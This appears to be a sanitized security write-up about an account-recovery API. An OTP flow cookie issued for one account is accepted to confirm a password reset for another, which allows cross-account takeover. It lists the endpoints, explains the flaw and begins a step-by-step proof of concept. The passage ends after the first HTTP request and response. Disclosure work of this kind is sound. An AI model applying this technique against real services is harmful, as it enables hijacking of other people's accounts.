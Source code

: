 > API base URL intentionally redacted. Only paths are shown.

- `POST /api/otp-core-ms/v2/generate`
- `POST /api/otp-core-ms/v1/validate`
- `POST /api/account-ms/v1/recovery/password/confirm`

---

## Vulnerability Overview

1. **Unbound flow token:** After `/validate`, the server set `OTP_TOKEN` (cookie). That token was **accepted** by `/confirm` **even if** the `jwt`/`accountId` in the JSON body belonged to **another account**.  
2. **Single‑use nuance:** The token is **not reusable**, so the attacker must **not** use it for their own account. They must spend the token **once** — on the victim’s `/confirm` within the token TTL.  
3. **Result:** A successful **cross‑account password reset** (zero‑click from the victim’s perspective).

---

## Step‑by‑Step PoC (Sanitized)

Let’s use two demo identities:

- **Account A (attacker):** `attacker@example.com`
- **Account B (victim):** `victim@example.com`

> ⚠️ The token is single‑use. After `/validate` for Account A, **do not** call `/confirm` for A. Use the token once — to confirm the reset for **B**.

### 1) Generate OTP for **Account A** (attacker)

**Request**
```http
POST /api/otp-core-ms/v2/generate HTTP/2
Host: [redacted]
Content-Type: application/json

{"username":"attacker","email":"attacker@example.com","channel":"email","transaction_type":"recovery_password"}
```

**Response (excerpt)**
```http
HTTP/2 200 OK
Content-Type: application/json
Content-Length: [redacted]

{"status":"SUCCESS","channel":62,"requestId":"[GUID]","datetime":"[DD-MM-YYYY HH:mm:ss]","data":{"resend_left":9},
  "accountId":[ATTACKER_ACCOUNT_ID],
  "accountCode":"[REDACTED]",
  "firstName":"[REDACTED]","lastName":"[REDACTED]","birthDate":"[REDACTED]",
  "jwt":"<REDACTED_JWT>"}
```
